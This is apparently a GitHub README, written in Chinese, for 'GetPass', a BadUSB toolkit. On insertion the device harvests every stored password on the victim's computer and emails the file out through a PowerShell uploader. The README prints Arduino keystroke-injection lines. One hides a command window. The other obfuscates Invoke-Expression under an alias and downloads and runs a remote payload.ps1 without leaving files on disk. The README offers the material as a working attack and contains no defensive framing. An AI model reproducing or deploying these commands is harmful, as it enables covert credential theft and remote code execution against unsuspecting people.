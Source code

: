 # GetPass
插入badusb设备自动将获取到的所有密码写到文件然后发送到邮箱中,把badusb_GetPass.ino烧录到badusb设备。

GetPass.exe
获取所有密码

PassUP.ps1
上传文件到邮箱
## 可使用最小化隐藏cmd窗口
```
  Keyboard.println("CMD /t:01 /k @ECHO OFF && MODE CON:cols=15 lines=1");   //使用最小化隐藏cmd窗口
```
## 攻击 - 钓鱼攻击 - 文件下载），实现全程无落地文件✈
```
  Keyboard.println("echo set-alias -name rookie -value Invoke-Expression;rookie(new-object net.webclient).downloadstring('http://IP/payload.ps1') | powershell -");
```


运行实例
![image](https://github.com/kissgeek/GetPass/blob/master/image/GetPass.png)
